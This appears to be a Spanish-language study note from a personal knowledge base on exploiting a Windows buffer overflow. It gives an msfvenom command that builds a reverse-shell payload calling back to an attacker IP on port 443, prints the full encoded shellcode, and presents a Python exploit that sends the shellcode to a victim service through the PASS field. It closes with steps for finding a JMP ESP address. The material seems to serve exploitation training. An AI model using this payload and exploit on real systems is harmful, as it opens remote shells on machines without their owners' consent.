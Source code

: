 #BufferOverflow #ShellCode 

Debemos de generar un *shellcode* en hexadecimal a bajo nivel que se encargue de entablar una reverse shell, este *shellcode* será introducido en el *ESP* para que sea interpretado y dos de acceso a la máquina.
Usaremos [[MSFVENOM]]
`msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.1.22 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`
	*-p* = Payload
	*--platform* = SO
	*-a* = Arquitectura
	*LHOST* = IP atacante
	*LPORT* = Puerto de escucha
	*-f* = Formato (ej: py, c, js...)
	*-e* = Encoder
	*-b* = Badchars
	*EXITFUNCT=thread* = Para no romper el proceso principal y el servicio siga estando operativo
	
Nos generara el *shellcode*
```shell
"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
"\xfc"
```

Este código lo implementaremos en el exploit:
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	
	shellcode = (b"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
				 b"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
				 b"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
				 b"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
				 b"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
				 b"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
				 b"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
				 b"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
				 b"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
				 b"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
				 b"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
				 b"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
				 b"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
				 b"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
				 b"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
				 b"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
				 b"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
				 b"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
				 b"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
				 b"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
				 b"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
				 b"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
				 b"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
				 b"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
				 b"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
				 b"\xfc")
	
	payload = before_eip + eip + shellcode
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```


Una vez detectados los *badchars* y generado el *shellcode* tendremos que buscar un *OpCode (Operaration Code)* que ejecute un *jump* a *ESP*
Para eso usaremos `!mona modules` en donde las 4 primeras columnas tienes que estar en FALSE, nos copiamos la dirección.
Ahora buscaremos la instrucción tipo *jump ESP* 


